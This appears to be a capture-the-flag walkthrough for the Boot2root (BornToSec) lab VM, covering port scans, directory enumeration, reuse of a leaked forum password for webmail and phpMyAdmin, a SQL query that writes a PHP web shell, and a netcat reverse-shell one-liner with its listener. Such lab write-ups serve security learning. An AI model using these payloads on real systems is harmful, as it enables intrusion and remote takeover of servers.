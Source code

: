 # Boot2root

### Scan Nmap

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 09:31 UTC
Nmap scan report for 192.168.56.101
Host is up (0.00028s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hack me if you can
|_http-server-header: Apache/2.2.22 (Ubuntu)
143/tcp open  imap       Dovecot imapd
|_imap-capabilities: more capabilities IDLE IMAP4rev1 STARTTLS LOGINDISABLEDA0001 have post-login listed OK SASL-IR LOGIN-REFERRALS LITERAL+ ID Pre-login ENABLE
|_ssl-date: 2025-02-13T09:32:31+00:00; -1s from scanner time.
443/tcp open  ssl/http   Apache httpd 2.2.22
|_ssl-date: 2025-02-13T09:32:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 404 Not Found
993/tcp open  ssl/imaps?
|_ssl-date: 2025-02-13T09:32:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=2/13%OT=21%CT=1%CU=38008%PV=Y%DS=2%DC=T%G=Y%TM=67ADBC3
OS:0%P=x86_64-unknown-linux-gnu)SEQ(SP=11%GCD=FA00%ISR=9C%TI=I%CI=I%TS=U)OP
OS:S(O1=MFFC8%O2=MFFC8%O3=MFFC8%O4=MFFC8%O5=MFFC8%O6=MFFC8)WIN(W1=FFFF%W2=F
OS:FFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFFF)ECN(R=Y%DF=N%T=40%W=FFFF%O=MFFC8%CC=
OS:N%Q=)T1(R=Y%DF=N%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=N%T=
OS:FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=40%W=FFFF%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)T6(R=Y%DF=N%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=
OS:FF%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N) 
```

### Scan Dirbuster

```
Dir found: /cgi-bin/ - 403
Dir found: /forum/ - 200
Dir found: /icons/ - 403
Dir found: /phpmyadmin/ - 200
File found: /forum/index.php - 200
Dir found: /forum/themes/ - 200
Dir found: /forum/themes/default/ - 200
Dir found: /forum/themes/default/images/ - 200
Dir found: /forum/js/ - 200
File found: /forum/js/main.min.js - 200
File found: /phpmyadmin/url.php - 200
File found: /phpmyadmin/Documentation.html - 200
Dir found: /webmail/ - 302
```

### Forum

#### Index
![screenshot](screen/forumIndex.png)

#### Problem login --> author lmezard
![screenshot](screen/forumLogs.png)

#### Password ??? --> ```!q\]Ej?*5K5cy*AJ```

#### Connected
```
Pseudo: lmezard
Password: !q\]Ej?*5K5cy*AJ
```
![screenshot](screen/lmezardProfile.png)

#### Get email

```
Dir found: /webmail/
Email: laurie@borntosec.net
Password: !q\]Ej?*5K5cy*AJ
```

![screenshot](screen/webmailIndex.png)

#### DB access
![screenshot](screen/webmailDBaccess.png)

#### Connected on phpmyadmin with root user !
![screenshot](screen/Userinfophpmyadmin.png)


#### Send request sql on `/var/www/forum/template_c/`
```
SELECT '<?php system($_GET["payload"]); ?>' INTO OUTFILE "/var/www/forum/templates_c/exploit.php"
```
![screenshot](screen/SQLrequest.png)

#### Testing vulnerability
![screenshot](screen/testvulnerability.png)

![screenshot](screen/vulnOK.png)

#### Exploit with reverse shell 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.56.1 9999 >/tmp/f

URL encode: rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.56.1%209999%20%3E%2Ftmp%2Ff

https://192.168.56.1:443/var/www/forum/templates_c/exploit.php?payload=

https://192.168.56.1:443/var/www/forum/templates_c/exploit.php?payload=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.56.1%209999%20%3E%2Ftmp%2Ff

```

```
Listen with nc: 

nc -lnvp 9999
```
